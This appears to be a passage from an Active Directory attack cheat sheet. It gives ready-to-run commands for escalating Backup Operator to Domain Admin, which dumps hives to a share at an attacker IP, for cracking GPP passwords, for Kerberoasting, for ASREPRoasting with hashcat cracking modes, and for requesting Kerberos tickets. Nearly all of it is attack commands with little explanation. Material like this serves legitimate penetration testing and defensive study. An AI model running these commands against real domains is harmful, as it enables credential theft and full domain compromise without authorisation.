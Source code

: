 ```powershell
# Use the -h parameter to check if our compiled file is correct."
.\BackupOperatorToDA.exe -t \\<TARGET or dc> -u <username> -p <password> -d <domain> -o \\<attacker ip>\share
```

### :open_file_folder: Group Policy Preferences File (GPP cracking)

Groups.xml

```
gpp-decrypt <Groups.xml cpassword strings>
```

### :open_file_folder: Kerberoasting

service logon account with SPN services

```
# valid domain credentials
python3 GetUserSPNs.py <domain>/<username>:<password> -dc-ip <domain controller ip> 
```

```
python3 GetUserSPNs.py <domain>/<username>:<password> -dc-ip <domain controller ip> -request -output <hashfile>
```

```
hashcat -a 0 -m 13100 <hashfile> ~/Documents/rockyou.txt       
```

### :open_file_folder: ASREPRoast

[GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py)

```shell
python3 GetNPUsers.py <domain>/ -dc-ip <domain controller ip> -usersfile <userlist> -format hashcat -outputfile <hashes> -no-pass
# directly output
python3 GetNPUsers.py <domain>/ -dc-ip <domain controller ip> -usersfile <userlist> -format hashcat -no-pass
python3 GetNPUsers.py <domain>/ -dc-ip <domain controller ip> -format hashcat -outputfile <hashes>
# hashcat -> 18200
```

### :open_file_folder: [impacket smbclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbclient.py)

different from the smb tool smbclient

```shell
python3 getTGT.py <domain>/<username>:<password> -k -dc-ip <domain controller ip>
# -k: use Kerberos authentication.
```
